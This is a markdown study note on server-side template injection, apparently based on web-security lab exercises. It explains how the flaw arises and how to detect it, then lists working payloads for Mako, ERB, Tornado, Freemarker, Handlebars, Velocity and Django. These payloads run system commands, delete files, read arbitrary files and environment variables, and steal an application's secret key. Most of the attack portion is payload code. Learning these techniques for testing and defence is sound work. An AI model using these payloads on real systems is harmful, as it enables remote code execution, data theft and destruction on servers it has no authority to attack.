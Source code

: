 # Server-side template injection
SSTI is when an attacker is able to use template syntax to inject malicious code into ttemplate which is executed on server.  
Server-side template injection vulnerabilities arise when user input is concatenated into templates rather than being passed in as data.  
Statically generated templates aren't vulnerable:
```
$output = $twig->render("Dear {first_name},", array("first_name" => $user.first_name) );
```
But dynamically generated are vulnerable:
```
$output = $twig->render("Dear " . $_GET['name']);
http://vulnerable-website.com/?name={{bad-stuff-here}}
```
SSTI are hard to detect, but easy to exploit.  
Fuzz `${{<%[%'"}}%\`  
If exception occurs, that means such syntax is interpreted by a server in some way.  
```
http://vulnerable-website.com/?username=${7*7}
```
If mathematical operations are executed, it's a vuln!  
Also sometimes we need to break out from template:
```
http://vulnerable-website.com/?greeting=data.username}}<tag>
```
After detecting SSTI we need to define what template engine is used by using different paylaods and examining responses.  
After dedtecting tempalte engine, read docs and learn basic template syntax.  
Example for Mako template engine:
```
<%
                import os
                x=os.popen('id').read()
                %>
                ${x}
```
Example for ERB (Ruby) template:
```
url?q=<%= 7*7 %>
<%= system("whoami") %>
```
Example for Tornado:
```
user.nickname}}{% import os %}{{os.system('rm /home/carlos/morale.txt')
```
Also read 'Security' section of documentations of template engines.  
Read files in ERB:
```
<%= Dir.entries('/') %>
<%= File.open('/example/arbitrary-file').read %>
```
Freemarker example (Java):
```
<p>${"freemarker.template.utility.Execute"?new()("rm /home/carlos/morale.txt")}</p>
```
RCE for handlebars:
```
wrtz{{#with "s" as |string|}}
    {{#with "e"}}
        {{#with split as |conslist|}}
            {{this.pop}}
            {{this.push (lookup string.sub "constructor")}}
            {{this.pop}}
            {{#with string.split as |codelist|}}
                {{this.pop}}
                {{this.push "return require('child_process').exec('rm /home/carlos/morale.txt');"}}
                {{this.pop}}
                {{#each conslist}}
                    {{#with (string.sub.apply 0 codelist)}}
                        {{this}}
                    {{/with}}
                {{/each}}
            {{/with}}
        {{/with}}
    {{/with}}
{{/with}}
```
## Explore
If we can't create exploit, we need to explore environment  
Many template engines expose a "self" or "environment" object of some kind, which acts like a namespace containing all objects, methods, and attributes that are supported by the template engine. If such an object exists, you can potentially use it to generate a list of objects that are in scope. For example, in Java-based templating languages, you can sometimes list all variables in the environment using the following injection: 
```
${T(java.lang.System).getenv()}
```
Also we need investigate not only template-provided objects, but specific user-provided.  
For django:
```
{% debug %}
if settings object is accessible, we can steal app secret key:
{{% settings.SECRET_KEY %}}
```
## Constructing custom exploit
Firstly, we need investigate objects and functions to which we have access.  
From documentation we can investigate interesting objects and they methods, that could be combined to obtain high-privileged access  
For eexamplein Velocity(java) we have access to a `ClassTool` object called `$class`. From docs we can investigate that we can chain the `$class.inspect()` method and `$class.type` property to obtain references to arbitrary objects.  
```
$class.inspect("java.lang.Runtime").type.getRuntime().exec("bad-stuff-here")
```
For Freemarker:
```
${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('/home/carlos/my_password.txt').toURL().openStream().readAllBytes()?join(" ")}
```
